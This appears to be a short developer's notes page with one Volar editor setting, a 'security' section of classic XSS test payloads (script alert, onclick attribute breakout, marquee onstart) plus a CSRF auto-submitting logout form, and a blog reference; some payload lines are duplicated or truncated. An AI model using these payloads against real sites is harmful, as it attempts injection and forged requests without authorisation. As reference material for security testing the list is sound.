 ### volar
```
"volar.inlayHints.eventArgumentInInlineHandlers": true
```

### security
```js
"><script>alert("XSS")</script>
"><script>alert("XSS")</script>

" onclick=alert(1)//<button ' onclick=alert(1)//> 
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//


"><marquee/onstart=confirm(String.fromCharCode(88,
"><marquee/onstart=confirm(String.fromCharCode(88,83,83))>//


<html>
  <body onload="document.forms[0].submit()">
    <form action="https://testsite.com/logout">
    </form>
  </body>
</html>
```

### references
https://junior-datalist.tistory.com/236

